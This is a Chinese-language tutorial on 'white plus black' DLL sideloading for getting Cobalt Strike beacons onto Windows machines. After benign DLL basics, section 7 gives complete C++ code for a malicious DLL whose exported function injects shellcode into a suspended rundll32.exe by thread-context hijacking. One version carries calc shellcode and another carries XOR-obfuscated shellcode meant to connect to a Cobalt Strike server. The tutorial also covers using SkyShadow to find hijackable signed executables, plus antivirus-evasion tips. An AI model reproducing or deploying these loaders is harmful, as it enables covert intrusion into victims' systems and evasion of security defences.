# 1.什么是白加黑

## 1.1白

指的是**带有有效数字签名**的**exe文件**

## 1.2黑

指的是我们**恶意代码所在的文件**，通常是**dll文件**。针对代码的编写上，白程序一般我们只需要寻找，不需要手动编写，黑程序才是我们需要实际编写的。

所以白加黑，我们的重点就两个事情，**一是寻找白程序，二是写黑dll文件**。

# 2.白加黑上线原理

**白程序(exe) -->  dll -->  dllmain/导出函数中的代码**，其中dll是我们自己编写的，那么是不是里面的代码我们可以自定义，如果执行的是我们之前的加载器代码，是不是就可以上线CS了。



那么现在的难题就是：如何寻找白名单exe，虽然前面说了带有有效数字签名，但是带有签名的exe太多了，难道每个都可以？当然不是的，肯定是**需要那些会加载外部dll的白名单exe**。

找到了白名单exe之后，就是进行恶意dll的编写了，关于白名单的查找，我们暂且不着急，重点定位在dll的编写上。

# 3.dll文件介绍

DLL中文全称叫做 **动态链接库**(Dynamic Link Library，简称 DLL)是一种 Windows 操作系统中的共享文件，包含一系列可供程序共用的函数，数据和资源。**DLL文件中存放的是各类程序的函数实现过程**，当程序需要调用函数时需要先载入DLL，然后取得函数的地址，最后进行调用。使用DLL文件的好处是程序不需要在运行之初就加载所有的代码，**只有在程序需要某个函数的时候才从DLL中取出**。DLL文件和exe文件一样都是PE文件。

# 4.dll文件结构

首先我们打开vs2022新建一个动态链接库





可以看到有如下目录结构，可以看到有 **framework.h , pch.h , dllmain.cpp , pch.cpp** 四个文件。



## 4.1framework.h 文件

framework.h文件用于包含项目中需要使用的头文件，可以看到已经默认包含了windows头文件；



## 4.2pch.h文件

pch.h是预编译标头文件，dll的导出函数应该在此处定义；



## 4.3dllmain.cpp文件

dllmain.cpp文件包含程序的入口点，在dllmain.cpp中实现的在pch.h中定义函数，当然也可以在其他cpp文件中实现，如pch.cpp等



## 4.4pch.cpp 文件

一般存放我们的导出函数



## 4.5DllMain

Dllmain是动态链接库的可选入口点，也就是常说的**入口函数**。

**当系统启动或终止进程或线程时，它会使用进程的第一个线程为每个加载的dll调用入口点函数。当dll使用LoadLibrary(Ex)加载和使用FreeLibrary函数卸载dll时，系统还会调用该函数的入口点函数。**

代码示例：

```
/*
* hModule：DLL模块句柄
* ul_reason_for_call：调用函数的原因
* lpReserved：保留参数
*/
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID
  lpReserved)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH: // 当DLL被进程加载时执行，每个新进程只初始化一次。
  case DLL_THREAD_ATTACH: // 当线程被创建时调用
  case DLL_THREAD_DETACH: // 当线程结束时执行
  case DLL_PROCESS_DETACH: // 当DLL被进程卸载时执行
    if (lpvReserved != nullptr)
    {
      break; // lpvReserved为非空时，表示进程被终止，不做任何清理
    }
    // 执行必要的清理
    break;
  }
  return TRUE; // DLL_PROCESS_ATTACH成功
}
```

# 5.编译dll

## 5.1导出函数

然后在 pch.cpp 中编写一个导出函数

```c_cpp
// pch.cpp: 与预编译标头对应的源文件
#include "pch.h"
// 当使用预编译的头时，需要使用此源文件，编译才能成功。
int sum(int a, int b) {
  return a + b;
}
```

然后需要在 pch.h 中定义该函数

```c_cpp
// pch.h: 这是预编译标头文件。
// 下方列出的文件仅编译一次，提高了将来生成的生成性能。
// 这还将影响 IntelliSense 性能，包括代码完成和许多代码浏览功能。
// 但是，如果此处列出的文件中的任何一个在生成之间有更新，它们全部都将被重新编译。
// 请勿在此处添加要频繁更新的文件，这将使得性能优势无效。

#ifndef PCH_H
#define PCH_H

// 添加要在此处预编译的标头
#include "framework.h"

#endif //PCH_H

#ifdef Dll1_EXPORTS
#define API_DECLSPECKM __declspec(dllexport)
#else
#define API_DECLSPECKM __declspec(dllimport)
#endif
extern "C" API_DECLSPECKM int sum(int a, int b);
```

前面这段宏定义的意思是如果定义一个了宏` Dll1_EXPORTS` 则定义` API_DECLSPECKM` 为 `__declspec(dllexport) `反之则定义 `API_DECLSPECKM` 为 `__declspec(dllimport)` 。

**注意，第一个宏 `Dll1_EXPORTS `的名称就是 dll 的名称 Dll1 后面加上 _EXPORTS。**

定义导出的函数需要使用 `__declspec(dllexport)` 或 `__declspec(dllimport)` 进行修饰，无论使用哪一个都可以编译成功，但是它们有一些细微的差别，其中` __declspec(dllimport)` 比 `__declspec(dllexport)`通用性更好

所以**默认一般是使用 __declspec(dllimport) 进行修饰**

点击生成





## 5.2查看dll导出函数

**dumpbin** 是 vs 自带的一款工具，可以查看 obj 文件、lib 库、dll 库、exe 执行文件，使用方法如下

```
#查看dll库中包含哪些函数
dumpbin /exports a.dll
#查看exe中加载了哪些动态库
dumpbin /imports a.exe
#查看lib库中包含了哪些函数
dumpbin /all /rawdata:none a.lib
#查看obj文件中包含哪些函数
dumpbin /all /rawdata:none d.obj
#查看dll头信息
dumpbin /headers a.dll
```

在开始菜单的 vs2022 目录下找到 Developer Command Prompt for VS 2022 命令行工具并打开



```
E:\visual studio 2022>cd /dC:\Users\86178\Desktop\project\cpp\Dll1\Dll1\x64\Debug
dumpbin /exports Dll1.dll
```

<br/>



可以看到导出了一个函数sum,其索引为1.

使用dumpbin /headers Dll1.dll 查看其头信息，可以看到这是一个64位的dll；



### Dependencies 

使用图像化工具Dependencies 查看dll的导出函数。

Dependencies 是对旧版软件 Dependency Walker 的重写，支持 windows10 以上系统。在 github 上可以下载, 双击 DependenciesGui.exe 启动

```
https://github.com/lucasg/Dependencies/releases/tag/v1.11.1
```



打开后直接将 dll 拖入窗口即可, 点击dll1 即可查看



# 6.dll调试

由于 dll 不能直接运行，因此在 vs 中无法直接对 dll 进行调试，需要新建一个 exe 项目进行调试

右键【解决方案】->【添加】->【新建项目】





创建后解决方案下就多了一个 dlltest 项目



在 dlltest.cpp 中调用动态加载 dll

```
#include <Windows.h>  // 包含 Windows API 函数的头文件，如 LoadLibrary、GetProcAddress 等
#include <iostream>   // 包含输入输出流，如 cout

using namespace std;  // 使用标准命名空间，避免在使用标准库时需要加上 std::

int main()
{
  // 动态加载名为 "Dll1.dll" 的 DLL 文件
  // LoadLibrary 函数用于加载 DLL，并返回一个 HMODULE 句柄，表示这个 DLL 模块
  HMODULE hDll1 = LoadLibrary(L"Dll1.dll");

  // 定义一个函数指针类型 pSum，表示一个接受两个整数参数并返回整数的函数
  typedef int(*pSum)(int a, int b);

  // 使用 GetProcAddress 获取 "Dll1.dll" 中名为 "sum" 的函数地址
  // GetProcAddress 函数返回函数地址，将其强制转换为 pSum 类型的函数指针
  pSum sum = (pSum)GetProcAddress(hDll1, "sum");

  // 调用 "sum" 函数，并将结果输出到控制台
  cout << sum(1, 2) << endl;

  // main 函数的返回值，通常表示程序正常终止
  return 0;
}
```

这段代码的作用是通过动态链接库（DLL）的加载和函数指针的方式加载一个名为 Dll1.dll 的 DLL 文件，并从中获取一个函数 sum，然后调用这个函数并输出结果。

1.`HMODULE hDll1 = LoadLibrary(L"Dll1.dll"); `：这一行代码通过 LoadLibrary 函数加载名为 "Dll1.dll" 的动态链接库。 LoadLibrary 函数返回一个模块句柄（ HMODULE 类型），该句柄用于标识已加载的动态链接库。如果加载失败， hDll1 将为 NULL 。
2.` typedef int(*pSum)(int a, int b); `：这一行代码定义了一个函数指针类型 pSum ，该指针指向一个函数，该函数接受两个 int 类型参数并返回一个 int 类型的值。这个类型定义用于后续将动态链接库中的函数地址赋给一个函数指针。
3.` pSum sum = (pSum)GetProcAddress(hDll1, "sum"); `： GetProcAddress 函数用于获取动态链接库中具有指定名称的函数的地址。这里，它从 hDll1 中获取名为 "sum" 的函数的地址，并将其赋给 sum 函数指针。
4. `cout << sum(1,2) << endl; `：通过调用 sum 函数指针来执行动态链接库中的 "sum" 函数，传递参数 1 和 2，并将结果输出到控制台

注意，这时还不能直接点击运行 exe，需要右键 dlltest 选择【设为启动项目】



点击生成解决方案即可







**需要注意的是，每次 dll 修改后（包括打断点）都要右键 dll 项目重新生成，不然 exe 调用的 dll 还是旧的 dll。**

我们打个断点试试：







这里对 dll 的调试就完成了

# 7.制作白加黑上线cs

知道了dll文件是怎么个事, 那么接下来我们就可以进行白加黑的挖掘了, 手工挖虽然可以, 但是效率太低, 推荐使用工具批量挖掘

## SkyShadow

把 SkyShadow-main\Tools 目录添加到环境变量



运行

```
python3 SkyShadow.py "文件夹路径"
# 文件路径选择你电脑上软件的常见安装目录,比如
C:\Program Files
C:\Program Files (x86)
```

这里给大家演示, 选择

```
SkyShadow-main\test
python3 SkyShadow.py "test"
```

会生成一个payload目录





其中标有数字签名的是我们可能需要的白程序



双击运行exe, 如果提示只缺少一个dll文件(多个就要写多个dll文件了, 意义不大), 即可



然后打开txt, 根据提示制作dll文件



制作dll文件测试, **哪些导出函数会被调用**。直接把导出函数的定义放在dllmain.cpp文件即可



编译生成, 重命名, 跟exe放在同一个目录







两个导出函数, 均被调用, 那么shellcode加载器写在任意一个函数均可, 另外一个可以直接return

### 加载执行计算器

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <iostream>
using namespace std;
unsigned char payload[] = {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,
0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59
,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,
0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
unsigned int payload_len = sizeof payload - 1;
extern "C" __declspec(dllexport) int GetInstallDetailsPayload() {
  char* v7A = (char*)VirtualAlloc(0, payload_len, 0x3000u, 0x40u);
  memcpy((void*)v7A, payload, payload_len);
  struct _PROCESS_INFORMATION ProcessInformation;
  struct _STARTUPINFOA StartupInfo;
  void* v24;
  CONTEXT Context;
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.cb = 68;
  BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo,
    &ProcessInformation);
  if (result)
  {
    Context.ContextFlags = 65539;
    GetThreadContext(ProcessInformation.hThread, &Context);
    v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, payload_len, 0x1000u, 0x40u);
    WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, payload_len, NULL);
    // 32 位使用 Context.Eip = (DWORD_PTR)v24;
    Context.Rip = (DWORD_PTR)v24;
    SetThreadContext(ProcessInformation.hThread, &Context);
    ResumeThread(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hThread);
    result = CloseHandle(ProcessInformation.hProcess);
  }
  TerminateProcess(GetCurrentProcess(), 0);
  return 0;
}
extern "C" __declspec(dllexport) int SignalInitializeCrashReporting() {
  return 0;
}
BOOL APIENTRY DllMain(HMODULE hModule,
  DWORD ul_reason_for_call,
  LPVOID lpReserved
)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```



剩下的就是替换shellcode为上线cs, 以及shellcode的处理

### 异或加密shellcode, 上线cs

```c_cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <iostream>
using namespace std;
// sc跟20异或了
unsigned char payload[] = { 0xe8,0x5c,0x97,0xf0,0xe4,0xfc,0xdc,0x14,0x14,0x14,0x55,0x45,0x55,0x44,0x46,0x45,0x42,0x5c,0x25,0xc6,0x71,0x5c,0x9f,0x46,0x74,0x5c,0x9f,0x46,0x0c,0x5c,0x9f,0x46,0x34,0x5c,0x9f,0x66,0x44,0x5c,0x1b,0xa3,0x5e,0x5e,0x59,0x25,0xdd,0x5c,0x25,0xd4,0xb8,0x28,0x75,0x68,0x16,0x38,0x34,0x55,0xd5,0xdd,0x19,0x55,0x15,0xd5,0xf6,0xf9,0x46,0x55,0x45,0x5c,0x9f,0x46,0x34,0x9f,0x56,0x28,0x5c,0x15,0xc4,0x72,0x95,0x6c,0x0c,0x1f,0x16,0x61,0x66,0x9f,0x94,0x9c,0x14,0x14,0x14,0x5c,0x91,0xd4,0x60,0x73,0x5c,0x15,0xc4,0x44,0x9f,0x5c,0x0c,0x50,0x9f,0x54,0x34,0x5d,0x15,0xc4,0xf7,0x42,0x5c,0xeb,0xdd,0x55,0x9f,0x20,0x9c,0x5c,0x15,0xc2,0x59,0x25,0xdd,0x5c,0x25,0xd4,0xb8,0x55,0xd5,0xdd,0x19,0x55,0x15,0xd5,0x2c,0xf4,0x61,0xe5,0x58,0x17,0x58,0x30,0x1c,0x51,0x2d,0xc5,0x61,0xcc,0x4c,0x50,0x9f,0x54,0x30,0x5d,0x15,0xc4,0x72,0x55,0x9f,0x18,0x5c,0x50,0x9f,0x54,0x08,0x5d,0x15,0xc4,0x55,0x9f,0x10,0x9c,0x5c,0x15,0xc4,0x55,0x4c,0x55,0x4c,0x4a,0x4d,0x4e,0x55,0x4c,0x55,0x4d,0x55,0x4e,0x5c,0x97,0xf8,0x34,0x55,0x46,0xeb,0xf4,0x4c,0x55,0x4d,0x4e,0x5c,0x9f,0x06,0xfd,0x5b,0xeb,0xeb,0xeb,0x49,0x7e,0x14,0x5d,0xaa,0x63,0x7d,0x7a,0x7d,0x7a,0x71,0x60,0x14,0x55,0x42,0x5d,0x9d,0xf2,0x58,0x9d,0xe5,0x55,0xae,0x58,0x63,0x32,0x13,0xeb,0xc1,0x5c,0x25,0xdd,0x5c,0x25,0xc6,0x59,0x25,0xd4,0x59,0x25,0xdd,0x55,0x44,0x55,0x44,0x55,0xae,0x2e,0x42,0x6d,0xb3,0xeb,0xc1,0xff,0x67,0x4e,0x5c,0x9d,0xd5,0x55,0xac,0xc6,0x10,0x14,0x14,0x59,0x25,0xdd,0x55,0x45,0x55,0x45,0x7e,0x17,0x55,0x45,0x55,0xae,0x43,0x9d,0x8b,0xd2,0xeb,0xc1,0xff,0x4d,0x4f,0x5c,0x9d,0xd5,0x5c,0x25,0xc6,0x5d,0x9d,0xcc,0x59,0x25,0xdd,0x46,0x7c,0x14,0x16,0x54,0x90,0x46,0x46,0x55,0xae,0xff,0x41,0x3a,0x2f,0xeb,0xc1,0x5c,0x9d,0xd2,0x5c,0x97,0xd7,0x44,0x7e,0x1e,0x4b,0x5c,0x9d,0xe5,0x5c,0x9d,0xce,0x5d,0xd3,0xd4,0xeb,0xeb,0xeb,0xeb,0x59,0x25,0xdd,0x46,0x46,0x55,0xae,0x39,0x12,0x0c,0x6f,0xeb,0xc1,0x91,0xd4,0x1b,0x91,0x89,0x15,0x14,0x14,0x5c,0xeb,0xdb,0x1b,0x90,0x98,0x15,0x14,0x14,0xff,0xc7,0xfd,0xf0,0x15,0x14,0x14,0xfc,0xb6,0xeb,0xeb,0xeb,0x3b,0x58,0x5c,0x40,0x61,0x14,0x66,0x1e,0xf4,0x82,0x72,0x26,0xee,0x5e,0x45,0x4a,0xcd,0xf5,0xab,0x50,0xf5,0x93,0x58,0xb3,0xae,0xfb,0x89,0x97,0x24,0x84,0x5f,0xca,0x20,0xb3,0xf2,0xcb,0x14,0xb0,0x9a,0xed,0xde,0x04,0x09,0x34,0xa9,0xb6,0x19,0x76,0x73,0x2e,0x29,0x82,0x63,0x39,0xde,0xe7,0x0d,0x1f,0xb1,0x1d,0xa7,0xaf,0x26,0x07,0x18,0x00,0xb5,0x16,0x2b,0x45,0x21,0x1d,0x7b,0x03,0xf6,0x14,0xe5,0xdd,0x85,0x14,0x41,0x67,0x71,0x66,0x39,0x55,0x73,0x71,0x7a,0x60,0x2e,0x34,0x59,0x7b,0x6e,0x7d,0x78,0x78,0x75,0x3b,0x21,0x3a,0x24,0x34,0x3c,0x77,0x7b,0x79,0x64,0x75,0x60,0x7d,0x76,0x78,0x71,0x2f,0x34,0x59,0x47,0x5d,0x51,0x34,0x2d,0x3a,0x24,0x2f,0x34,0x43,0x7d,0x7a,0x70,0x7b,0x63,0x67,0x34,0x5a,0x40,0x34,0x22,0x3a,0x25,0x2f,0x34,0x40,0x66,0x7d,0x70,0x71,0x7a,0x60,0x3b,0x21,0x3a,0x24,0x2f,0x34,0x41,0x5c,0x47,0x3d,0x19,0x1e,0x14,0xb8,0x62,0x02,0x7f,0x2f,0x40,0x69,0xde,0x3b,0xd7,0xc2,0xea,0xd4,0xcb,0x01,0xbb,0x67,0xb0,0xac,0xbc,0x6f,0xc2,0x30,0x38,0x30,0x75,0x42,0x9f,0x72,0x85,0x8d,0x9a,0x30,0xf6,0xbc,0xbb,0xc4,0x8d,0x9e,0x56,0xd3,0x2a,0x8a,0xc0,0xd0,0xab,0xb1,0x90,0xbb,0x97,0x6b,0xaf,0x64,0x03,0x80,0x0f,0xcf,0x17,0xc7,0x94,0x1a,0xdd,0xe9,0xd8,0xd8,0xda,0xd6,0x68,0xd0,0x50,0x12,0x47,0x62,0x8a,0x60,0xa2,0x73,0x2f,0x7f,0xb2,0xf2,0xaa,0x83,0x41,0xdd,0x16,0x56,0x08,0xde,0x93,0x4f,0xd8,0x02,0x0b,0xa9,0x90,0xce,0xbe,0x52,0x0c,0x90,0x45,0x41,0xf7,0xbf,0x12,0xbd,0xb2,0x0d,0x3d,0x02,0x0f,0x50,0xad,0xd6,0x1d,0xfb,0x1a,0xd5,0xe3,0xaa,0xba,0xf2,0xdb,0x93,0xd4,0x13,0x93,0x58,0x89,0x04,0x1e,0x58,0x32,0x50,0x51,0x56,0x7f,0xa5,0x80,0x26,0xae,0xd1,0x73,0xe1,0x2e,0x84,0x71,0xf4,0xa8,0x56,0xdc,0x84,0xfe,0x3d,0xcc,0x26,0x68,0x2c,0xc8,0x88,0xe4,0xd3,0x64,0x75,0x61,0x4c,0x92,0x12,0x08,0x8f,0xb1,0x0f,0x03,0x49,0x87,0xcb,0xf9,0x43,0x27,0x5d,0xb5,0x95,0xe6,0x23,0x41,0xf8,0x9d,0xae,0x76,0x37,0x99,0x6c,0xef,0x00,0x16,0x8f,0x2c,0x6a,0xc7,0xcc,0x6d,0xe5,0xfa,0x4e,0x43,0x5a,0x17,0xf3,0xec,0x32,0x19,0x85,0x35,0x5e,0x5d,0x1e,0x92,0x16,0x52,0x14,0x55,0xaa,0xe4,0xa1,0xb6,0x42,0xeb,0xc1,0x5c,0x25,0xdd,0xae,0x14,0x14,0x54,0x14,0x55,0xac,0x14,0x04,0x14,0x14,0x55,0xad,0x54,0x14,0x14,0x14,0x55,0xae,0x4c,0xb0,0x47,0xf1,0xeb,0xc1,0x5c,0x87,0x47,0x47,0x5c,0x9d,0xf3,0x5c,0x9d,0xe5,0x5c,0x9d,0xce,0x55,0xac,0x14,0x34,0x14,0x14,0x5d,0x9d,0xed,0x55,0xae,0x06,0x82,0x9d,0xf6,0xeb,0xc1,0x5c,0x97,0xd0,0x34,0x91,0xd4,0x60,0xa2,0x72,0x9f,0x13,0x5c,0x15,0xd7,0x91,0xd4,0x61,0xc3,0x4c,0x4c,0x4c,0x5c,0x11,0x14,0x14,0x14,0x14,0x44,0xd7,0xfc,0x8b,0xe9,0xeb,0xeb,0x2c,0x3a,0x25,0x27,0x24,0x3a,0x27,0x21,0x3a,0x25,0x27,0x27,0x14,0x06,0x20,0x42,0x6c };
unsigned int payload_len = sizeof payload - 1;
void myXor(unsigned char str[], int len, int key) {
  for (int i = 0; i < len; i++) {
    str[i] = str[i] ^ key;
  }
}
extern "C" __declspec(dllexport) int GetInstallDetailsPayload() {
  HMODULE hModule = GetModuleHandleA("kernel32.dll");
  if (hModule == NULL)
  {
    cout << "GetModuleHandle failed." << endl;
    return -1;
  }
  char szPath[MAX_PATH];
  DWORD dwSize = GetModuleFileNameA(hModule, szPath, MAX_PATH);
  if (dwSize == 0)
  {
    cout << "GetModuleFileName failed." << endl;
    return -1;
  }
  myXor(payload, payload_len, szPath[strlen(szPath) - 3] - '0'); // szPath[strlen(szPath) - 3] - '0' ->20
    char* v7A = (char*)VirtualAlloc(0, payload_len, 0x3000u, 0x40u);
  memcpy((void*)v7A, payload, payload_len);
  struct _PROCESS_INFORMATION ProcessInformation;
  struct _STARTUPINFOA StartupInfo;
  void* v24;
  CONTEXT Context;
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.cb = 68;
  BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo,
    &ProcessInformation);
  if (result)
  {
    Context.ContextFlags = 65539;
    GetThreadContext(ProcessInformation.hThread, &Context);
    v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, payload_len, 0x1000u, 0x40u);
    WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, payload_len, NULL);
    // 32 位使用 Context.Eip = (DWORD_PTR)v24;
    Context.Rip = (DWORD_PTR)v24;
    SetThreadContext(ProcessInformation.hThread, &Context);
    ResumeThread(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hThread);
    result = CloseHandle(ProcessInformation.hProcess);
  }
  TerminateProcess(GetCurrentProcess(), 0);
  return 0;
}
extern "C" __declspec(dllexport) int SignalInitializeCrashReporting() {
  return 0;
}
BOOL APIENTRY DllMain(HMODULE hModule,
  DWORD ul_reason_for_call,
  LPVOID lpReserved
)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}

```



多提一嘴: 如果dll被杀, 很正常, 因为黑dll会被查杀, 添加对应白名单的exe数字签名即可, 有些黑dll, 只要名字是xxxdll就会被杀, 这是直接加黑了, 通过文件名杀的, 不管你dll里面是什么代码

# 8.白加黑现场挖掘

1.安装一台虚拟机
2.部署好Python环境, 以及SkyShadow脚本
3.新创建一个目录, 用于程序安装目录
4.拍摄快照
5.下载站

```
https://pc.qq.com/category/c0.html
https://lestore.lenovo.com/cate/soft?cid=13&tid=30
```


```
https://lsw-fast.lenovo.com.cn/appstore/normal/apps/3709-2023-08-24105238-
1692845558679.msi
```







